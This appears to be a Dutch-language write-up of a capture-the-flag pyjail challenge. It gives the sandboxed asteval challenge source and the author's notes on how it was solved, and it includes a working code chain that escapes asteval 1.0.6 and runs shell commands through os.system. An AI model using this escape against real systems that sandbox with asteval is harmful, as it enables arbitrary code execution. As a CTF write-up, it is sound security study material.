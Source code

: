 Insert screenshot van de challenge description

Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c`

`asteval==1.0.6`, de nieuwste release.

TODO: Context from UofTCTF

```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

Tijdens de CTF is hij twee keer opgelost, door bekenden in de pyjail-scene, Lyndon van Maple Mallard Magistrates en oh_word, van Infobahn.
Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`

